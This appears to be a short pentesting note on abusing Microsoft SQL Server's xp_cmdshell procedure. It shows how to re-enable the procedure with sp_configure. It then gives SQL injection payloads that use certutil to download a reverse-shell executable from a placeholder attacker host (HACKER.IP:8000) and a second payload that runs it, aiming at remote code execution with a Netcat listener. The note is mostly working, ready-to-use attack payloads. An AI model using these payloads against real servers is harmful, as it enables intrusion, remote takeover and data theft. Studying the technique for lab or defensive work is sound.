 ## xp_cmdshell
**xp_cmdshell** is a system-extended stored procedure in Microsoft SQL Server that enables the execution of operating system commands and programs from within SQL Server. It provides a mechanism for SQL Server to interact directly with the host operating system's command shell. 

Although old and mostly disabled by default, it is possible to manually enable **xp_cmdshell** in SQL Server through `EXECUTE` (**EXEC**) queries. Still, it requires the database user to be a member of the **sysadmin** fixed server role or have the `ALTER SETTINGS` server-level permission to execute this command.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Once this is accomplished we can use [[Metasploit#Msfvenom |Msfvenom]] to set up a **reverse shell** in an executable and a python server so we can obtain **RCE** in the target machine

We then use the next payload so the target server runs the `certutil` command with the `-f` option that will make it download the executable, and place it in a temp folder.
```sql
'; EXEC xp_cmdshell 'certutil -urlcache -f http://HACKER.IP:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

Finally we can set up a [[Netcat]] listener server and send another payload to run the executable and set up our **reverse shell**

```sql
'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```
